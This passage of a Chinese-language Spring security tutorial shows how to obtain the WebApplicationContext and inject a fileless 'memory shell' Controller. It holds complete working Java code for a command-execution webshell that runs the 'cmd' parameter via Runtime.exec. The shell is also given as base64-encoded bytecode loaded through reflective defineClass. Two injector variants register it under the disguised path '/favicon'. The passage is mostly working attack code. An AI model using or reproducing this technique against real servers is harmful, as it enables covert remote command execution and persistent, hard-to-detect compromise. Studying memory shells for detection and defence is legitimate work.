

**getAttribute**

`Context`在创建后，被作为一个属性添加到了`ServletContext`中，所以通过直接获得`ServletContext`类的属性`Context`拿到。

```java
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```

其中`currentRequestAttributes()`替换成`getRequestAttributes()`也同样有效；`getAttribute`参数中的 0 代表从当前 request 中获取而不是从当前的 session中 获取属性值。



**LiveBeansView**

因为`org.springframework.context.support.LiveBeansView`类在`spring-context 3.2.x `版本才加入其中，所以低版本无法通过此方法获得`ApplicationContext`的实例。
```java
//反射 org.springframework.context.support.LiveBeansView 类 applicationContexts 属性
java.lang.reflect.Field filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
//属性被 private 修饰，所以setAccessible true
filed.setAccessible(true);
//获取一个 ApplicationContext 实例
org.springframework.web.context.WebApplicationContext context =(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
```



这里推荐使用后面三种方式去获取`Child WebApplicationContext`，在我的环境下第一种方式无法获取到，相关解释如下：

> 在很多应用配置中注册 Controller 的 component-scan 组件都配置在类似的 dispatcherServlet-servlet.xml 中，而不是全局配置文件 applicationContext.xml 中。这样就导致 RequestMappingHandlerMapping 的实例 bean 只存在于 Child WebApplicationContext 环境中。由于 Root Context 无法访问 Child Context 中定义的 bean，所以可能会导致 1、2 方法获取到的 Root WebApplicationContext 无法获得 RequestMappingHandlerMapping 的实例 bean。
>
> 另外在有些 Spring 应用逻辑比较简单的情况下，可能没有配置 ContextLoaderListener 、也没有类似 applicationContext.xml 的全局配置文件，只有简单的 servlet 配置文件。这时候通过前两种方法是获取不到 Root WebApplicationContext（在 springboot 中也获取不到）。

剩下的就是动手编写动态注入`Controlller`内存马的实现代码，先编写一个恶意代码类
```java
package com.memoryshell.spring;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/12/2 12:16
 */
public class ControllerEvilClass {

    public void shell(HttpServletRequest request, HttpServletResponse response) throws Exception{
        try{
            String cmd = request.getParameter("cmd");
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
            }else {
                response.sendError(404);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

然后将`ControllerEvilClass`类字节码经过 base64 编码以用于接下来的实现类
```java
package com.study.springdemo.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

/**
 * Created by dotast on 2022/11/25 16:37
 */
@Controller
public class HelloController {

    @ResponseBody
    @RequestMapping("/hello")
    public String SayHello(HttpServletRequest req, HttpServletResponse resp){
        String path = "/favicon";
        try{
            // 加载类字节码
            String classCode = "yv66vgAAADQAbQoAFAA6CAAmCwA7ADwKAD0APgoAPQA/CgBAAEEHAEIKAAcAOgoAQwBECgAHAEULAEYARwcASAoABwBJCgAMAEoKAEsATAsARgBNBwBOCgARAE8HAFAHAFEBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEALExjb20vbWVtb3J5c2hlbGwvc3ByaW5nL0NvbnRyb2xsZXJFdmlsQ2xhc3M7AQAFc2hlbGwBAFIoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOylWAQALaW5wdXRTdHJlYW0BABVMamF2YS9pby9JbnB1dFN0cmVhbTsBAANiYW8BAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQAFYnl0ZXMBAAJbQgEAAWEBAAFJAQADY21kAQASTGphdmEvbGFuZy9TdHJpbmc7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEAB3JlcXVlc3QBACdMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDsBAAhyZXNwb25zZQEAKExqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZTsBAA1TdGFja01hcFRhYmxlBwBQBwBSBwBTBwBIBwBUBwBCBwAjBwBOAQAKRXhjZXB0aW9ucwEAClNvdXJjZUZpbGUBABhDb250cm9sbGVyRXZpbENsYXNzLmphdmEMABUAFgcAUgwAVQBWBwBXDABYAFkMAFoAWwcAXAwAXQBeAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAFQMAF8AYAwAYQBiBwBTDABjAGQBABBqYXZhL2xhbmcvU3RyaW5nDABlAGYMABUAZwcAaAwAYQBpDABqAGsBABNqYXZhL2xhbmcvRXhjZXB0aW9uDABsABYBACpjb20vbWVtb3J5c2hlbGwvc3ByaW5nL0NvbnRyb2xsZXJFdmlsQ2xhc3MBABBqYXZhL2xhbmcvT2JqZWN0AQAlamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdAEAJmphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlAQATamF2YS9pby9JbnB1dFN0cmVhbQEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEABHJlYWQBAAUoW0IpSQEABXdyaXRlAQAHKFtCSUkpVgEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQALdG9CeXRlQXJyYXkBAAQoKVtCAQAFKFtCKVYBABNqYXZhL2lvL1ByaW50V3JpdGVyAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAJc2VuZEVycm9yAQAEKEkpVgEAD3ByaW50U3RhY2tUcmFjZQAhABMAFAAAAAAAAgABABUAFgABABcAAAAvAAEAAQAAAAUqtwABsQAAAAIAGAAAAAYAAQAAAAsAGQAAAAwAAQAAAAUAGgAbAAAAAQAcAB0AAgAXAAABbAAEAAgAAABxKxICuQADAgBOLcYAVbgABC22AAW2AAY6BLsAB1m3AAg6BREEALwIOgYCNgcZBBkGtgAJWTYHAp8AEBkFGQYDFQe2AAqn/+gsuQALAQC7AAxZGQW2AA23AA62AA+nAAwsEQGUuQAQAgCnAAhOLbYAErEAAQAAAGgAawARAAMAGAAAAD4ADwAAAA8ACQAQAA0AEQAZABIAIgATACkAFAAsABUAOgAWAEcAGABcABkAXwAaAGgAHgBrABwAbAAdAHAAHwAZAAAAXAAJABkAQwAeAB8ABAAiADoAIAAhAAUAKQAzACIAIwAGACwAMAAkACUABwAJAF8AJgAnAAMAbAAEACgAKQADAAAAcQAaABsAAAAAAHEAKgArAAEAAABxACwALQACAC4AAAA7AAb/ACwACAcALwcAMAcAMQcAMgcAMwcANAcANQEAABr/ABcABAcALwcAMAcAMQcAMgAA+gAIQgcANgQANwAAAAQAAQARAAEAOAAAAAIAOQ==";
            byte[] bytes = sun.misc.BASE64Decoder.class.newInstance().decodeBuffer(classCode);
            java.lang.reflect.Method classMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            classMethod.setAccessible(true);
            Class myClass =  (Class)classMethod.invoke(Thread.currentThread().getContextClassLoader(),  bytes, 0, bytes.length);
            // 获取上下文环境
            WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            // 通过 context 获取 RequestMappingHandlerMapping 对象
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            // 获取父类的 MappingRegistry 属性
            Field f = mappingHandlerMapping.getClass().getSuperclass().getSuperclass().getDeclaredField("mappingRegistry");
            f.setAccessible(true);
            Object mappingRegistry = f.get(mappingHandlerMapping);
            //路径映射绑定
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            // springboot 2.6.x之后的版本需要pathPatternsCondition
            RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).options(config).build();

            // 反射调用 MappingRegistry 的 register 方法
            Class c = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");
            Method[] methods = c.getDeclaredMethods();
            for (Method method:methods){
                if("register".equals(method.getName())){
                    // 反射调用 MappingRegistry 的 register 方法注册
                    method.setAccessible(true);
                    method.invoke(mappingRegistry,requestMappingInfo,myClass.newInstance(),myClass.getMethods()[0]);
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }

        return "Hello!";
    }
}
```

访问`/hello`路由注入内存马


访问`/favicon`


不喜欢反射调用的话可以直接写一块
```java
package com.study.springdemo.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

/**
 * Created by dotast on 2022/11/25 16:37
 */
@Controller
public class HelloController {

    @ResponseBody
    @RequestMapping("/hello")
    public String SayHello(HttpServletRequest req, HttpServletResponse resp){
        String path = "/favicon";
        try{
            // 加载类
            HelloController helloController = new HelloController();
            Method evilMethod = HelloController.class.getMethod("evil", HttpServletRequest.class, HttpServletResponse.class);
            // 获取上下文环境
            WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            // 通过 context 获取 RequestMappingHandlerMapping 对象
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            // 获取父类的 MappingRegistry 属性
            Field f = mappingHandlerMapping.getClass().getSuperclass().getSuperclass().getDeclaredField("mappingRegistry");
            f.setAccessible(true);
            Object mappingRegistry = f.get(mappingHandlerMapping);
            //路径映射绑定
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            // springboot 2.6.x之后的版本需要pathPatternsCondition
            RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).options(config).build();

            // 反射调用 MappingRegistry 的 register 方法
            Class c = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");
            Method[] methods = c.getDeclaredMethods();
            for (Method method:methods){
                if("register".equals(method.getName())){
                    // 反射调用 MappingRegistry 的 register 方法注册
                    method.setAccessible(true);
                    method.invoke(mappingRegistry,requestMappingInfo,helloController,evilMethod);
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }

        return "Hello!";
    }

    public void evil(HttpServletRequest request, HttpServletResponse response) throws Exception{
        try{
            String cmd = request.getParameter("cmd");
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
            }else {
                response.sendError(404);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

